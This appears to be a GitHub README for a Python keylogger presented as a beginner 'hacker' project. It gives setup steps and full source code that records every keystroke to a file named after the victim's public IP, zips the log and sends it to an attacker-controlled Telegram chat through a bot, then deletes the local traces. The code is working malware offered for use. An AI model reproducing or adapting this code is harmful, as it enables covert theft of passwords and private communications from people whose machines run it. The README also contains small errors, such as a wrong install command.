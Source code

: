 # Introducetion
This is a keylogger using python, small example for the journey to become a hackerlor.

# Dependencies
* **pynput**
```bash
sudo apt install pynput
```
# Configuration
* **TOKEN**: Your bot token obtained from BotFather.
* **CHAT_ID**: Your chat ID where the bot will send messages.

## Explanation
- **Configuration Section**: Clearly state that users need to set up some configuration variables before running the program.
- **Description of TOKEN and CHAT_ID**: Provide a clear explanation of the purpose and origin of each variable to help users better understand how the program works.
- **Security Note:**: Remind users to keep these values secure to prevent misuse.

# Usage
```bash
python3 keylogger.py
```

# Review
## Typing
![alt text](image.png)
## Get
![alt text](image-1.png)
## View
![alt text](image-2.png)

# Code
```python
from pynput.keyboard import Listener
from telegram import Bot
import asyncio
import zipfile
import os
import http.client
import time

TOKEN = 'your_token'
CHAT_ID = 'your_chat_id'

bot = Bot(token=TOKEN)

def get_public_ip():
    try:
        conn = http.client.HTTPSConnection("api.ipify.org")
        conn.request("GET", "/")
        response = conn.getresponse()
        return response.read().decode()
    except Exception as e:
        print(f"Error: {e}")
        return None

current_time = time.strftime("%Y-%m-%d", time.localtime())

public_ip = get_public_ip()
if not public_ip:
    raise SystemExit("Unable to get public IP address")

log_file_name = f"{current_time} - {public_ip}.txt"
zip_file_name = f"{current_time} - {public_ip}.zip"

def zip_file(output_filename, filename_to_zip):
    with zipfile.ZipFile(output_filename, 'w') as zip:
        for file in filename_to_zip:
            zip.write(file, arcname=file.split('/')[-1])

async def send_file():
    with open(log_file_name, "rb") as file:
        await bot.send_document(chat_id=CHAT_ID, document=file)
    
    with open(zip_file_name, "rb") as file:
        await bot.send_document(chat_id=CHAT_ID, document=file)

def on_press(key):
    key = str(key).replace("'", "")
    
    with open(log_file_name, "a", encoding="utf-8") as f:
        if key == 'Key.esc':
            f.write("[DONE]")
            f.flush()
            zip_file(zip_file_name, [log_file_name])

            asyncio.run(send_file())

            os.remove(log_file_name)
            os.remove(zip_file_name)
            return False
        elif key == 'Key.space':
            f.write(" ")
        elif key == 'Key.enter':
            f.write("\n")
        elif key == 'Key.backspace':
            f.write("\b")
        elif key.__contains__("Key"):
            key = str(key).replace("Key.", "")
            f.write(f"[{key}]")
        else:
            f.write(key)

with Listener(on_press=on_press) as listener:
    listener.join()
```